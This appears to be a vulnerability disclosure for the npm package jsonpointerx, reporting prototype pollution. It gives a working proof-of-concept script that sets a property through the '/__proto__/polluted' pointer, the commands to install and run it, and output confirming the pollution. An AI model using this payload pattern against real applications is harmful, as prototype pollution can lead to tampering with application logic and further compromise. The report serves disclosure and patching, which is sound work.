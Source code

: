 # Description

`jsonpointerx` is vulnerable to `Prototype Pollution`.

# Proof of Concept

1. Create the following PoC file:

```
// poc.js
var {JsonPointer} =require('jsonpointerx');
let obj = { };
let jp = JsonPointer.compile('/__proto__/polluted'); 
console.log("Before : " + {}.polluted);
jp.set(obj, 'Yes! Its Polluted'); 
console.log("After : " + {}.polluted);
```

2. Execute the following commands in terminal:

```
npm i jsonpointerx # Install affected module
node poc.js #  Run the PoC
```

3. Check the Output:
```
Before : undefined
After : Yes! Its Polluted
```
